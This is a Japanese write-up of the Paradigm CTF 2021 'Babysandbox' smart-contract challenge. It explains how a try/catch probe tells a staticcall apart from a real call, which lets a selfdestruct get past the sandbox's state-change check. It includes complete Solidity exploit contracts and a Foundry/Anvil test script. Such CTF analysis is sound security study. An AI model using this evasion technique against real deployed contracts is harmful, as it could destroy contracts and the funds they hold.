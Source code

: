 # Paradigm CTF 2021: Babysandbox

## ソース
- [問題コントラクト](challenge)
- [Exploit](BabysandboxExploit.sol)
- [Test](test_exploit.sh)

## 概要
`Babysandbox`コントラクトの`run`関数で`selfdestruct`を実行する問題。ただしステート変化の検知を回避する必要がある。

## Writeup
`assembly`ブロックの1つ目のif文の条件を満たせば、`run`関数の引数であるアドレス`code`に対してdelegatecallできる。

```solidity
if eq(caller(), address()) {
    switch delegatecall(gas(), code, 0x00, 0x00, 0x00, 0x00)
    case 0 {
        returndatacopy(0x00, 0x00, returndatasize())
        revert(0x00, returndatasize())
    }
    case 1 {
        returndatacopy(0x00, 0x00, returndatasize())
        return(0x00, returndatasize())
    }
}
```

よって、アドレス`code`のコントラクトで`selfdestruct`すれば解けそうであるが、単純に`fallback`関数で`selfdestruct`しても失敗する。
というのも、delegatecallを実行する前に`code`に対して同じcalldata (=`""`)でstaticcallが実行され、そのstaticcallが失敗すると、その時点で`run`関数はrevertされる。
つまり、staticcallで`selfdestruct`のようなステートが変化する処理を単純に実行してしまうとdelegatecallに辿り着けない。

```solidity
// run using staticcall
// if this fails, then the code is malicious because it tried to change state
if iszero(staticcall(0x4000, address(), 0, calldatasize(), 0, 0)) { revert(0x00, 0x00) }

// if we got here, the code wasn't malicious
// run without staticcall since it's safe
switch call(0x4000, address(), 0, 0, calldatasize(), 0, 0)
case 0 { returndatacopy(0x00, 0x00, returndatasize()) }
// revert(0x00, returndatasize())
case 1 {
    returndatacopy(0x00, 0x00, returndatasize())
    return(0x00, returndatasize())
}
```

### staticcallを無視したexploit
一旦staticcallでのステート変化の検知を無視する。
delegatecallを実行するには、if文の条件「`caller()`と`address()`の一致」を満たす必要がある。
これを満たすには、sandbox内からcallすれば良い。

`call(0x4000, address(), 0, 0, calldatasize(), 0, 0)`の部分を考える。callの引数は、順に`gas`, `address`, `value`, `argsOffset`, `argsSize`, `retOffset`, `retSize`の7つ。
`calldatacopy`によってcalldataはメモリにコピー済みなので、calldata（runの実行部）がそのまま渡されることになる。そしてdelegatecallが`code`に対して実行される。

なので、staticcallを無視すれば、以下のexploitで良い。
```solidity
contract BabysandboxExploit {
    fallback() external {
        selfdestruct(payable(address(0)));
    }
}
```

### staticcallを考慮したexploit
staticcallによってステートの変化が起きる`selfdestruct`は単純に実行できずrevertされる。
最初に実行されるstaticcallと次に実行されるcallをExploit側が区別する方法が必要である。
これはtry/catch文を使って実際に状態を変化させられるかどうかを試すことで判別できる。
try文の式には外部関数コールとコントラクト作成のみ指定できるから、外部関数コールで別のコントラクトのステートが変化できるかどうかを試し、もし変化可能ならdelegatecallを実行、そうでないなら何もしない、というようにすれば、staticcallのステート変化検知によるrevertを回避できる。
そしてstaticcallを失敗させずにcallに辿り着き実行を継続させられる。

例えば、以下のようなコードを思いつく。
```solidity
contract StateChange {
    uint a = 0;
    function f() external {
        a++;
    }
}

contract BabysandboxExploit {
    StateChange immutable stateChange;

    constructor() {
        stateChange = new StateChange();
    }

    fallback() external {
        try stateChange.f() {
            selfdestruct(payable(address(0)));
        }
        catch {}
    }
}
```

しかし、これは`OutOfGas`になる。callの`0x4000` (`16384`) gasの制限に引っかかるためである。
これに対処するには`StateChange`の変数を無くし、`selfdestruct`にすると良い。`selfdestruct`を使うことで使えるガス代が増える。関連: [EIP-2200: Structured Definitions for Net Gas Metering ](https://eips.ethereum.org/EIPS/eip-2200), [EIP-3298: Removal of refunds](https://eips.ethereum.org/EIPS/eip-3298)。
最終的なexploitは以下。

```Solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract StateChange {
    function f() external {
        selfdestruct(payable(address(0)));
    }
}

contract BabysandboxExploit {
    StateChange immutable stateChange;

    constructor() {
        stateChange = new StateChange();
    }

    fallback() external {
        try stateChange.f() {
            selfdestruct(payable(address(0)));
        } catch {}
    }
}
```

### Test

```
bash src/ParadigmCTF2021/Babysandbox/test_exploit.sh
```

**Testの解説**

Forgeのtestはtransaction-baseであるため、テストの間は`extcodesize`の結果が変わらない。
よってtest機能は使わず、Forgeのscript機能とAnvilを組み合わせることでテストを行う。まずはsetup用とplayer用の2つのアカウントを決める。今回はAnvilのデフォルトアカウント（0番目と1番目）を使う。

```sh
export RPC_ANVIL=http://127.0.0.1:8545
export FOUNDRY_ETH_RPC_URL=$RPC_ANVIL

# Anvil account 0
export PRIVATE_KEY_SETUP=ac0974bec39a17e36ba4a6b4d238ff944bacb478cbed5efcae784d7bf4f2ff80
# Anvil account 1
export PRIVATE_KEY_PLAYER=59c6995e998f97a5a0044966f0945389dc9e86dae88c7a8412f4603b6b78690d
```

次にAnvilを起動する。
```sh
anvil --silent 1>/dev/null &
sleep 1
```
`sleep`は使いたくないが、これを挟んでAnvilが完全に起動するまで待たないと次に実行する`forge script`でRPCのエラーが起きる。

scriptを実行する。
```sh
forge script BabysandboxExploitTestScript --fork-url $RPC_ANVIL --broadcast --private-keys $PRIVATE_KEY_SETUP --private-keys $PRIVATE_KEY_PLAYER --gas-limit 1000000 --gas-estimate-multiplier 200 -vvvvv
```
現在、Forgeのscriptで個別のトランザクションにgasを指定する方法が存在しないため、`--gas-estimate-multiplier 200`を指定する必要がある。関連: https://github.com/foundry-rs/foundry/issues/2627 。


解けたかどうか`cast call`で確認する。
```sh
# 31337: chain id of Anvil
SETUP_ADDRESS=$(python -c 'import json; print(json.load(open("broadcast/BabysandboxExploitTest.s.sol/31337/run-latest.json"))["transactions"][0]["contractAddress"])')
# A result of EXTCODESIZE remains the same until a transaction is terminated.
SOLVED=$(cast call $SETUP_ADDRESS "isSolved()(bool)")

pkill anvil

echo "Result:" $SOLVED
```